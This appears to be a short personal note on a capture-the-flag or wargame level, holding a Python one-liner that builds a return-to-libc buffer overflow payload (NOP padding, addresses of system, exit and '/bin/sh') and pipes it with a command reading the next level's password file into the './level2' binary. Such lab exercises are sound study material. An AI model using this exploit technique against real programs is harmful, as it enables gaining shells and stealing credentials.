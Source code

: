 90 is a NOP instruction, good for alignment

(python -c 'print("\x90"*80 
+ "\x08\x04\x85\x3e"[::-1] <- return address of p
+ "\xb7\xe6\xb0\x60"[::-1] <- return address of system
+ "\x08\x04\x83\xd0"[::-1] <- return address of exit
+ "\xb7\xf8\xcc\x58"[::-1] <- return address of "bin/sh" in libc 
)' && echo 'cat /home/user/level3/.pass') | ./level2

why the parentheses?

